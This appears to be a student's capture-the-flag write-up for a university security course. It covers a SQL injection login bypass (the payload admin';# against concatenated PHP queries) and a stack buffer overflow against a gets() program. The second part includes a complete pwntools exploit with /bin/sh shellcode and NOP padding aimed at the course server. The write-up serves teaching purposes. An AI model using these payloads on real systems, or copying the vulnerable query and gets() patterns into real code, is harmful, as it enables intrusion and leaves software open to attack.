 # Week 8: CTF

## Goal

> Explore injection vulnerabilities.

### Challenge 1

> First we started by checking <http://ctf-fsi.fe.up.pt:5003/> and explore the page.

![initial page](../docs/initial.png)

> It is a simple web page that allows the user to login inserting a username and a password.
>
> We can try to use SQL injection to login even though we don't know the password. To see if we can perform SQL injection we must analyze the page code :

```php
$username = $_POST['username'];
               $password = $_POST['password'];
               
               $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                                     
               if ($result = $conn->query($query)) {
                                  
                  while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
                    $_SESSION['username'] = $data['username'];
           
                    echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
                    include "/flag.txt";
                    echo "</code>";

                 }
```

> The vulnerabilty is on this line :

```php
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

> We can insert on the username text to ignore the password and the query will just run to search for the username admin. The text that we will need to insert into the username will be something that will comment the password part like " admin';# " and in the password we can input anything because it will be commented :

![php with our input](../docs/login.png)

> As you can see above, it will just perform a simple query finding a user with the name admin and because it will return that user it will enter the if statement and we will be logged in and able to see the flag:

![after login](../docs/logged_in.png)

### Challenge 2

> First we started by running checksec in our program to see it´s protections.

```bash
 /home/seed/Documents/CTF/semana8/desafio2/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

> We can see that PIE is enabled which means that exists memory address randomization not allowing us to, like in challenges before, discover memory positions of variables and reuse them later. It is important to notice that NX is disabled which means that writable memory can be executed. This will be important for the exploit that we will use.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer); // this line has the vulnerability
    
    return 0;
}
```

> Now analysing the source code we see that the vulnerability is in the gets function because that function reads bytes from stdin until a character of termination is found. Our buffer only has size of 100 bytes so we can with gets write more than that and therefore create a buffer overflow.
>
> Exploiting gets() we can rewrite the return address to a place in memory where we have a large payload of shellcode and NOPs. If our code jump to the shellcode a shell will be launched and then we can execute:

```bash
cat flag.txt
```

> The line bellow is very important because it will tell us where the buffer is located in memory instead of us having to guess.

```c
printf("Your buffer is %p.\n", buffer);
```

> We used the shellcode of the week5 task and like in the other buffer overflows challenges we needed to discover the offset between the ebp and the buffer in memory.
>
> We determined since there were no more variables that this offset will be 104 therefore the return address is 108 bytes from the beggining of the buffer.

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
else:    
    p = remote("ctf-fsi.fe.up.pt", 4001)

buff_adr = p.recvline_contains(b'Your buffer is').decode('utf-8')[17:25]

print("Buff:" + buff_adr)

buff_bytes = bytearray.fromhex(buff_adr)
buff_bytes.reverse()

p.recvuntil(b':')

offset = 108 #104 + 4

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"

input = shellcode + b'\x90' * 81 + buff_bytes
p.sendline(input)
p.interactive()
```

> First we use p.recvline_contains to read from the output of the buffer memory position, then we transform that into a bytearray and then we reverse it because of little-endian.
> For our input we put the shellcode followed by 81 NOP's because 108 - size(shellcode) = 81 then we put the buffer memory address so that the function returns to the beggining of the buffer to then go to the shellcode and launch a shell.
>
> With the shell, to obtain the flag we just do:

```bash
cat flag.txt
```
